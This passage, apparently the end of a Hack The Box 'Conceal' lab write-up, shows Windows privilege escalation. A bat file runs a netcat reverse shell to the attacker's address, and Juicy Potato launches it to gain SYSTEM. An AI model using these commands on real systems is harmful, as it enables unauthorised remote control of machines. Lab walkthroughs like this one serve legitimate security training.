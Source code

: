 ![](/images/hackthebox/conceal/25.png)
<br> I created a `bat` file that executes : `nc.exe -e cmd.exe 10.10.xx.xx 1340` to get me a reverse shell :
`echo C:\users\Destitute\appdata\local\temp\nc.exe -e cmd.exe 10.10.xx.xx 1340 > rev.bat`
<br> Then I ran `juicypotato.exe` and made it execute that `bat` file :
`juicypotato.exe -p C:\users\Destitute\appdata\local\temp\rev.bat -l 1340 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}`
![](/images/hackthebox/conceal/26.png)
<br> It worked fine and we got a reverse shell as `nt authority\system`
![](/images/hackthebox/conceal/27.png)
<br>
<br>
![](/images/hackthebox/conceal/28.png)
<br> And we owned root !
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - Lightweight](/hack-the-box/lightweight/)
<br> Next Hack The Box write-up : [Hack The Box - Chaos](/hack-the-box/chaos/)
<hr>
